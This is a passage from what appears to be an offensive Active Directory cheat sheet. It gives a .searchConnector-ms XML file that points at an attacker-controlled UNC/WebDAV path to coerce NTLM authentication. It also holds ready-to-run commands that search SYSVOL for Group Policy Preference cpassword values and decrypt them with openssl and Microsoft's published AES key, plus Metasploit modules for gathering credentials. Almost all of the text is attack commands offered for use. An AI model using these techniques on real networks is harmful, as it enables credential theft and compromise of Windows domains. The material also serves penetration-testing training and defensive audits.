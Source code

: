 #### Windows Search Connectors Files

> Windows Search Connectors (.searchConnector-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```


### Passwords in SYSVOL & Group Policy Preferences

Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.

```powershell
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

Decrypt a Group Policy Password found in SYSVOL (by [0x00C651E0](https://twitter.com/0x00C651E0/status/956362334682849280)), using the 32-byte AES key provided by Microsoft in the [MSDN - 2.2.1.1.4 Password Encryption](https://msdn.microsoft.com/en-us/library/cc422924.aspx)

```bash
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

e.g: 
echo '5OPdEKwZSf7dYAvLOe6RzRDtcvT/wCP8g5RqmAgjSso=' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

echo 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

#### Automate the SYSVOL and passwords research

* `Metasploit` modules to enumerate shares and credentials
    ```c
    scanner/smb/smb_enumshares
    post/windows/gather/enum_shares
    post/windows/gather/credentials/gpp
    ```
